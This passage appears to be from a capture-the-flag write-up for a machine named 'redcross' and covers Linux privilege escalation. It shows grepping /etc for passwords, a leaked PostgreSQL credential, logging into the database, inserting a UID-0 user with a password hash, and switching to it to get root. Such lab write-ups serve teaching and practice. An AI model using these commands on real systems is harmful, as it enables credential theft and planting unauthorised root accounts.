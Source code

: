 To get an attack surface, it is recommended to run any **Linux Enumeration Script**.

In the _/etc_ directory are different configuration files and when searching for passwords, the file _nss-pgsql-root.conf_ has a different user account to access the **PostgreSQL database**.
```
cat /etc/* | grep password
```
```
shadowconnectionstring = hostaddr=127.0.0.1 dbname=unix user=unixnssroot password=30jdsklj4d_3 connect_timeout=1
```

Login into the database:
```
psql -h 127.0.0.1 -U unixnssroot unix
```

This user has more permissions than the one before, so we can create a user with the _UID 0_:
```
INSERT INTO passwd_table (username, passwd, uid, gid, homedir) values ('rootuser', '$1$61vWy0S8$fDRliAv0Lnr6lf.z9qD1j1', 0, 0, '/');
```

It is possible to switch users to the newly created user:
```
su rootuser
```

This user has an UID of 0, which means it is a root user!
```
rootuser@redcross:/# id
uid=0(rootuser) gid=0(root) groups=0(root)
```
